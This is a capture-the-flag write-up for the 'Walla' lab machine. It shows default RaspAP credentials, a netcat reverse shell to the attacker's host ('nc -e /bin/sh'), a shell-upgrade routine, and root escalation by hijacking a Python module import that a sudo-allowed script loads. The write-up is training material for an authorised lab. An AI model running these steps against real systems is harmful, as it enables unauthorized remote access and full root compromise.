



# Walla

- [Machine information](#machine-information)
- [Solution](#solution)
- [References](#references)

## Machine information

```text
Difficulty: Intermediate
Community Rating: Intermediate
Meta Tags: Walkthrough, Walk-through, Write-up, Writeup
OS: Linux
Points: 20
Number of Flags: 2
Lab Description:
This lab demonstrates leveraging default credentials in a RaspAP web application to gain remote 
code execution through its web console. Learners will escalate privileges by exploiting Python 
module import order to execute a malicious payload as root through a script allowed by sudo. 
This lab emphasizes web application misconfigurations and creative privilege escalation 
techniques in Python.
Released: 15 Mar 2021
```

Machine link: [https://portal.offsec.com/machine/walla-619/overview/details](https://portal.offsec.com/machine/walla-619/overview/details)

## Solution

### Scan for services with nmap

We start by scanning the machine on all ports with `nmap` including service info and default scripts

```bash
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Intermediate/Walla]
└─$ export TARGET_IP=192.168.219.97 

┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Intermediate/Walla]
└─$ sudo nmap -sC -sV -p- $TARGET_IP
[sudo] password for kali: 
Starting Nmap 7.98 ( https://nmap.org ) at 2026-03-19 11:49 +0100
Nmap scan report for 192.168.219.97
Host is up (0.034s latency).
Not shown: 65528 closed tcp ports (reset)
PORT      STATE SERVICE    VERSION
22/tcp    open  ssh        OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 02:71:5d:c8:b9:43:ba:6a:c8:ed:15:c5:6c:b2:f5:f9 (RSA)
|   256 f3:e5:10:d4:16:a9:9e:03:47:38:ba:ac:18:24:53:28 (ECDSA)
|_  256 02:4f:99:ec:85:6d:79:43:88:b2:b5:7c:f0:91:fe:74 (ED25519)
23/tcp    open  telnet     Linux telnetd
25/tcp    open  smtp       Postfix smtpd
|_smtp-commands: walla, PIPELINING, SIZE 10240000, VRFY, ETRN, STARTTLS, ENHANCEDSTATUSCODES, 8BITMIME, DSN, SMTPUTF8, CHUNKING
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=walla
| Subject Alternative Name: DNS:walla
| Not valid before: 2020-09-17T18:26:36
|_Not valid after:  2030-09-15T18:26:36
53/tcp    open  tcpwrapped
422/tcp   open  ssh        OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 02:71:5d:c8:b9:43:ba:6a:c8:ed:15:c5:6c:b2:f5:f9 (RSA)
|   256 f3:e5:10:d4:16:a9:9e:03:47:38:ba:ac:18:24:53:28 (ECDSA)
|_  256 02:4f:99:ec:85:6d:79:43:88:b2:b5:7c:f0:91:fe:74 (ED25519)
8091/tcp  open  http       lighttpd 1.4.53
|_http-server-header: lighttpd/1.4.53
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  Basic realm=RaspAP
42042/tcp open  ssh        OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 02:71:5d:c8:b9:43:ba:6a:c8:ed:15:c5:6c:b2:f5:f9 (RSA)
|   256 f3:e5:10:d4:16:a9:9e:03:47:38:ba:ac:18:24:53:28 (ECDSA)
|_  256 02:4f:99:ec:85:6d:79:43:88:b2:b5:7c:f0:91:fe:74 (ED25519)
Service Info: Host:  walla; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 35.38 seconds
```

We have three services running and available:

- OpenSSH 7.9p1 on port 22, 422 and 42042
- Linux telnetd on port 23
- lighttpd 1.4.53 on port 8091

### Check the web site

Trying to access the website on port 8091 prompts us for authentication.



Checking the [default credentials for RaspAP](https://docs.raspap.com/features-core/authentication/) we find:

- Username: `admin`
- Password: `secret`

Logging in with these credentials we get the following dashboard



### Get Console access

Checking the available options in the menu we find console access under `System` -> `Console` tab



### Get the user flag

We can just search for the user flag through the console

```bash
user@192.168.219.97 ~$ find /home -name local.txt -type f 2>/dev/null
/home/walter/local.txt
user@192.168.219.97 ~$ cat /home/walter/local.txt
c<REDACTED>e
user@192.168.219.97 ~$ 
```

### Get a reverse shell

We have netcat installed

```bash
user@192.168.219.97 ~$ which nc
/usr/bin/nc
user@192.168.219.97 ~$ nc -h
[v1.10-41.1]
connect to somewhere:    nc [-options] hostname port[s] [ports] ... 
listen for inbound:    nc -l -p port [-options] [hostname] [port]
options:
    -c shell commands    as `-e'; use /bin/sh to exec [dangerous!!]
    -e filename        program to exec after connect [dangerous!!]
    -b            allow broadcasts
    -g gateway        source-routing hop point[s], up to 8
    -G num            source-routing pointer: 4, 8, 12, ...
    -h            this cruft
    -i secs            delay interval for lines sent, ports scanned
        -k                      set keepalive option on socket
    -l            listen mode, for inbound connects
    -n            numeric-only IP addresses, no DNS
    -o file            hex dump of traffic
    -p port            local port number
    -r            randomize local and remote ports
    -q secs            quit after EOF on stdin and delay of secs
    -s addr            local source address
    -T tos            set Type Of Service
    -t            answer TELNET negotiation
    -u            UDP mode
    -v            verbose [use twice to be more verbose]
    -w secs            timeout for connects and final net reads
    -C            Send CRLF as line-ending
    -z            zero-I/O mode [used for scanning]
port numbers can be individual or ranges: lo-hi [inclusive];
hyphens in port names must be backslash escaped (e.g. 'ftp\-data').
user@192.168.219.97 ~$ 
```

and we can use it to get a reverse shell. First we start a netcat listener

```bash
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Intermediate/Walla]
└─$ nc -lvnp 12345    
listening on [any] 12345 ...

```

and then we trigger the reverse shell

```bash
user@192.168.219.97 ~$ nc -e /bin/sh 192.168.45.167 12345
```

Back at the netcat listener we now have a connection

```bash
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Intermediate/Walla]
└─$ nc -lvnp 12345                  
listening on [any] 12345 ...
connect to [192.168.45.167] from (UNKNOWN) [192.168.219.97] 53902
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
pwd
/var/www/html/includes

```

### Fix/upgrade the reverse shell

We don't have a proper shell though so let's fix that

```bash
tty
not a tty
which python3
/usr/bin/python3
python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@walla:/var/www/html/includes$ ^Z
zsh: suspended  nc -lvnp 12345

┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Intermediate/Walla]
└─$ stty raw -echo ; fg ; reset 
[1]  + continued  nc -lvnp 12345

www-data@walla:/var/www/html/includes$ export SHELL=/bin/bash
www-data@walla:/var/www/html/includes$ export TERM=xterm-256color
www-data@walla:/var/www/html/includes$ stty rows 200 columns 200
www-data@walla:/var/www/html/includes$ ^C
www-data@walla:/var/www/html/includes$ 
```

Now we have a proper shell that survives `Ctrl + C`!

### Enumeration for privesc

Next, we enumerate the system for privilege escalation opportunities.

First we check what we can run with `sudo`

```bash
www-data@walla:/var/www/html/includes$ sudo -l
Matching Defaults entries for www-data on walla:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User www-data may run the following commands on walla:
    (ALL) NOPASSWD: /sbin/ifup
    (ALL) NOPASSWD: /usr/bin/python /home/walter/wifi_reset.py
    (ALL) NOPASSWD: /bin/systemctl start hostapd.service
    (ALL) NOPASSWD: /bin/systemctl stop hostapd.service
    (ALL) NOPASSWD: /bin/systemctl start dnsmasq.service
    (ALL) NOPASSWD: /bin/systemctl stop dnsmasq.service
    (ALL) NOPASSWD: /bin/systemctl restart dnsmasq.service
www-data@walla:/var/www/html/includes$ 
```

The Python script looks interesting

```bash
www-data@walla:/var/www/html/includes$ cd /home/walter/
www-data@walla:/home/walter$ cat wifi_reset.py 
#!/usr/bin/python

import sys

try:
        import wificontroller
except Exception:
        print "[!] ERROR: Unable to load wificontroller module."
        sys.exit()

wificontroller.stop("wlan0", "1")
wificontroller.reset("wlan0", "1")
wificotroller.start("wlan0", "1")
www-data@walla:/home/walter$ 
```

### Create an exploit

We can hijack the `wificontrolller` package with a malicious package

```bash
www-data@walla:/home/walter$ mkdir wificontroller
www-data@walla:/home/walter$ cd wificontroller/
www-data@walla:/home/walter/wificontroller$ vi __init__.py
www-data@walla:/home/walter/wificontroller$ cat __init__.py 
#!/usr/bin/python

import os
os.system("/bin/bash -p")

www-data@walla:/home/walter/wificontroller$ 
```

Then we trigger the exploit

```bash
www-data@walla:/home/walter/wificontroller$ sudo /usr/bin/python /home/walter/wifi_reset.py
root@walla:/home/walter/wificontroller# id
uid=0(root) gid=0(root) groups=0(root)
root@walla:/home/walter/wificontroller# 
```

### Get the root flag

Finally we can get the root flag

```bash
root@walla:/home/walter/wificontroller# cd /root
root@walla:~# ls -la
total 20
drwx------  2 root root 4096 Mar 19 08:33 .
drwxr-xr-x 18 root root 4096 Sep 17  2020 ..
lrwxrwxrwx  1 root root    9 Sep 17  2020 .bash_history -> /dev/null
-rw-r--r--  1 root root  570 Jan 31  2010 .bashrc
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
-rw-r--r--  1 root root   33 Mar 19 08:34 proof.txt
root@walla:~# cat proof.txt 
2<REDACTED>c
root@walla:~# 
```

For additional information, please see the references below.

## References

- [find - Linux manual page](https://man7.org/linux/man-pages/man1/find.1.html)
- [id - Linux manual page](https://man7.org/linux/man-pages/man1/id.1.html)
- [nc - Linux manual page](https://linux.die.net/man/1/nc)
- [netcat - Wikipedia](https://en.wikipedia.org/wiki/Netcat)
- [nmap - Homepage](https://nmap.org/)
- [nmap - Linux manual page](https://linux.die.net/man/1/nmap)
- [nmap - Manual page](https://nmap.org/book/man.html)
- [OpenSSH  - Wikipedia](https://en.wikipedia.org/wiki/OpenSSH)
- [Python (programming language) - Wikipedia](https://en.wikipedia.org/wiki/Python_(programming_language))
- [stty - Linux manual page](https://man7.org/linux/man-pages/man1/stty.1.html)
- [sudo - Linux manual page](https://man7.org/linux/man-pages/man8/sudo.8.html)
- [sudo - Wikipedia](https://en.wikipedia.org/wiki/Sudo)
- [Telnet - Wikipedia](https://en.wikipedia.org/wiki/Telnet)
- [tty - Linux manual page](https://man7.org/linux/man-pages/man1/tty.1.html)
